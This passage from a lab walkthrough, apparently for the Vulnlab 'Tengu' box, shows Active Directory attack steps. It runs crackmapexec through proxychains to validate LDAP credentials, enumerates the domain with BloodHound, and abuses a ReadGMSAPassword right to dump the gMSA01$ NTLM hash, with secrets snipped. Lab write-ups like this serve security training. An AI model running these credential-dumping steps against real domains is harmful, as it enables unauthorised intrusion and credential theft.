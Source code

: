 Whether or not we'll need this is really up to the box. That being said, you'll notice on the Wiki that it's telling us to utilize delegation for our next vector. Originally I thought we'd do this to access `.182`, however it seems that machine was only used for the `MSSQL` purpose that we needed it for before, as it doesn't seem to have anything else useful for us right now.

Running `crackmapexec` through our DC seems to let us know that we have valid credentials to LDAP on the DC with `t2_m.winters`.

```
└─$ proxychains4 crackmapexec ldap 10.10.187.181 -u 't2_m.winters' -p '[...snip...]'                                              
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.187.181:445  ...  OK
SMB         10.10.187.181   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  DC.tengu.vl:389  ...  OK
LDAP        10.10.187.181   389    DC               [+] tengu.vl\t2_m.winters:[...snip...]
```

Note that I did take a break here for the day, so the IP addresses will change. The new chain addresses will vary.

Now that we have valid credentials to LDAP as a user, we can dump the domain using [Bloodhound](https://github.com/dirkjanm/BloodHound.py).

In the Bloodhound GUI, I couldn't find anything out of the ordinary for the `t2_m.winters`. They are a valid user to the LDAP service on the DC, but they don't seem to have anything else. Let's take a look at the machine account `NODERED$` that we currently have an NTLM hash for.

![](/images/vulnlab/tengu-vl/i.jpg)

# ReadGMSAPassword on GMSA01$

It seems that our machine account `NODE-RED$` is a part of the `LINUX_SERVER` domain group, which has `ReadGMSAPassword` over `GMSA01$@tengu.vl`. This essentially means that we can read the respective password for this user as our `NODERED$` machine account. We can do so with crackmapexec.

```
└─$ proxychains4 crackmapexec ldap dc.tengu.vl -u 'NODERED$' -H [...snip...] --gmsa

SMB         dc.tengu.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  DC.tengu.vl:636  ...  OK
LDAP        dc.tengu.vl     636    DC               [+] tengu.vl\NODERED$:[...snip...] 
LDAP        dc.tengu.vl     636    DC               [*] Getting GMSA Passwords
LDAP        dc.tengu.vl     636    DC               Account: gMSA01$              NTLM: [...snip...]
```

